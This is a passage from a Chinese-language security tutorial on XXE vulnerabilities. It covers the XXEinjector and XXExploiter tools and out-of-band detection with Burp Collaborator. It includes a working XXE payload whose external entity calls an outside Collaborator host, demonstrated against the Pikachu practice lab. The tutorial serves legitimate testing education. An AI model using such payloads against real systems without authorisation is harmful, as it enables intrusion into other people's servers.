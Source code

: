 User-Agent: Mozilla/<span class="hljs-number">5.0</span> (Windows NT <span class="hljs-number">10.0</span>; Win64; x64) AppleWebKit/<span class="hljs-number">537.36</span> (KHTML, like Gecko) Chrome/<span class="hljs-number">65.0</span><span class="hljs-number">.3325</span><span class="hljs-number">.181</span> Safari/<span class="hljs-number">537.36</span>
Accept: text/html,application/xhtml+xml,application/xml;q=<span class="hljs-number">0.9</span>,image/webp,image/apng,*<span class="hljs-comment">/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,en;q=0.8
Cache-Control: max-age=259200
Connection: keep-alive
</span></code></pre>
<p data-nodeid="1098">常用命令如下：<br>
<img src="https://s0.lgstatic.com/i/image2/M01/05/79/Cip5yGAABwiAda6kAAF5gVHcGUo024.png" alt="Drawing 3.png" data-nodeid="1222"></p>
<div data-nodeid="1099"><p style="text-align:center">图 4  XXEinjector 常用命令</p></div>
<p data-nodeid="1100">不过，不能完全依赖于 XXEinjector，因为之前我在测试时，发现它也有利用不成功的情况，需要自己多测试验证下。</p>
<p data-nodeid="1101">其他更多 XXE payload，可以参考<a href="https://github.com/payloadbox/xxe-injection-payload-list" data-nodeid="1227">“XML External Entity (XXE) Injection Payload List”</a>。</p>
<h4 data-nodeid="1102">2.XXExploiter</h4>
<p data-nodeid="1103">如果你记不住上面那些 XXE payload，还有个工具可以帮你生成，一款集 payload 生成与发包利用的 XXE 利用工具 <a href="https://github.com/luisfontes19/xxexploiter" data-nodeid="1233">XXExploiter</a>，它可以启动服务提供远程 DTD 文件去实现利用。</p>
<p data-nodeid="4339" class=""><img src="https://s0.lgstatic.com/i/image2/M01/06/D8/CgpVE2AGWfCAdbhhAAQe4lr3PMM251.png" alt="图片5.png" data-nodeid="4343"></p>
<div data-nodeid="4340"><p style="text-align:center">图 5   xxeploiter 利用方法</p></div>






<p data-nodeid="1106">就功能而言，个人觉得它比 XXEinjector 更优秀，生成 payload 的功能还可以用于辅助手工测试，结合业务场景自己做一些调整。</p>
<h3 data-nodeid="1107">XXE 漏洞挖掘</h3>
<h4 data-nodeid="1108">1.黑盒测试</h4>
<p data-nodeid="1109">XXE 依然如 SSRF 分为有回显、无回显。通过 XXE 可以造成 SSRF，所以它的检测思路与 SSRF 大同小异，比较通用的方式也是构造特定外网服务器的访问请求，然后查询外网服务器的请求日志，以判断是否请求成功。</p>
<p data-nodeid="1110">无论是手工测试还是自动化，当前检测 XXE 和 SSRF 漏洞的方式大多是基于此原理。</p>
<p data-nodeid="1111">上一讲介绍的 Burp Collaborator，在此处就用得上，使用前面介绍的常见攻击手段，去尝试构造多种测试请求，是否向 Burp Collaborator Server 请求成功，就可以很容易地判断是否存在 XXE。</p>
<p data-nodeid="1112">以 Pikachu 靶场的 XXE 题目为例。用 Burp Collaborator 获得 DNS 解析服务器的地址 b5hcm1ypwg6bvqnxtm6iyqao9ff53u.burpcollaborator.net，然后构造 XXE payload。</p>
<pre class="lang-xml" data-nodeid="1113"><code data-language="xml"><span class="hljs-meta">&lt;?xml version = "1.0"?&gt;</span>
<span class="hljs-meta">&lt;!DOCTYPE <span class="hljs-meta-keyword">ANY</span> [
    <span class="hljs-meta">&lt;!ENTITY <span class="hljs-meta-keyword">xxe</span> <span class="hljs-meta-keyword">SYSTEM</span> <span class="hljs-meta-string">"http://b5hcm1ypwg6bvqnxtm6iyqao9ff53u.burpcollaborator.net"</span>&gt;</span>
]&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">x</span>&gt;</span><span class="hljs-symbol">&amp;xxe;</span><span class="hljs-tag">&lt;/<span class="hljs-name">x</span>&gt;</span>
</code></pre>
<p data-nodeid="5360" class="">将上述 payload 输入文本框，点“提交”：<br>
<img src="https://s0.lgstatic.com/i/image2/M01/06/D6/Cip5yGAGWgSAfTxdAAR6XBUFZa4113.png" alt="图片6.png" data-nodeid="5366"></p>
<div data-nodeid="5361" class="te-preview-highlight"><p style="text-align:center">图 6  输入 xml payload</p></div>
